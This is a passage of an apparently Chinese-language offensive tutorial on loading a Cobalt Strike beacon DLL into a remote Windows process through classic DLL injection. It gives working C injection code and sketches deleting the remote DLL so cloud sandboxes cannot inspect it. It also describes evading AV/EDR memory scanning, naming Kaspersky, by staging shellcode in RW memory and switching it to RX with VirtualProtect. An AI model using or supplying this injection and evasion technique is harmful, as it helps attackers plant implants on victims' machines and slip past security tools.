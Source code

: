 6.需要用到 LoadLibraryA

经典 DLL 注入到远程进程中，根据上面远程进程注入的知识，写出简单的 demo

我们利用 cs 生成的 dll 文件上传到目标电脑上然后编译对应的 exe，也就是说双文件落地的形式

即：cs 上线的 dll 文件 dllinject.exe

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("C:\\Users\\ning\\Desktop\\DLLinject\\cs.dll");
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath,
  MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = 
  (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, 
  remoteBuffer, 0, NULL);
    CloseHandle(processHandle);
    return 0;
}
```

**那么我们不妨发散思维，我们可以远端加载 dll 文件进行注入，在目标上只留下 dllinject.exe，同时在完成上线后**

**我们将远端的 dll 文件删除，这样云沙箱是不是就无法加载了？**

#### 6.RW+RX 的内存

AV/EDR喜欢扫描具有RWX属性的内存区域,尤其是国外著名的卡巴斯基,其内存扫描的本质就是扫描内存中的RWX权限，所以我们使用RW+RX来规避

步骤：

1.VirtualAlloc 申请可读可写的内存属性 **RW**

2.memcopy 将 shellcode 拷贝到内存

3.VirtualProtect 改变内存属性为**RX**

4.指针执行

那么下面我们来学习一下 VirtualProtect

**VirtualProtect：可以用来改变内存属性**

```php
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
